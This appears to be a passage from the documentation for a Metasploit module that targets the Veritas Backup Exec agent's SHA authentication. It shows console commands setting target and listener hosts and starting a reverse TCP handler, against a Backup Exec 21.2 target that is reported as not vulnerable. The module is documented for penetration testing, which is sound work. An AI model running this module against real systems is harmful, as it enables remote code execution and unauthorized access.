 ```
meterpreter > exit
[*] Shutting down Meterpreter...

[*] 172.16.199.133 - Meterpreter session 2 closed.  Reason: User exit
```

### Windows; Backup Exec 21.2 (Backup Exec Remote Agent, revision 9.4) - NOT VULNERABLE
```
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > use exploit/multi/veritas/beagent_sha_auth_rce
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set rhosts 172.16.180.135
rhosts => 172.16.180.135
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > set lhost 172.16.180.248
lhost => 172.16.180.248
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > check

[*] 172.16.180.135:10000 - Checking vulnerability
[*] 172.16.180.135:10000 - Connecting to BE Agent service
[*] 172.16.180.135:10000 - Getting supported authentication types
[*] 172.16.180.135:10000 - Supported authentication by BE agent: BEWS2 (190), SSPI (4)
[*] 172.16.180.135:10000 - BE agent revision: 9.4
[*] 172.16.180.135:10000 - The target is not exploitable. SHA authentication is disabled
msf6 exploit(multi/veritas/beagent_sha_auth_rce) > run

[*] Started reverse TCP handler on 172.16.180.248:4444
[*] 172.16.180.135:10000 - Running automatic check ("set AutoCheck false" to disable)
[*] 172.16.180.135:10000 - Checking vulnerability
[*] 172.16.180.135:10000 - Connecting to BE Agent service
[*] 172.16.180.135:10000 - Getting supported authentication types
[*] 172.16.180.135:10000 - Supported authentication by BE agent: BEWS2 (190), SSPI (4)
[*] 172.16.180.135:10000 - BE agent revision: 9.4
[-] 172.16.180.135:10000 - Exploit aborted due to failure: not-vulnerable: The target is not exploitable. SHA authentication is disabled "set ForceExploit true" to override check result.
[*] Exploit completed, but no session was created.
msf6 exploit(multi/veritas/beagent_sha_auth_rce) >
```
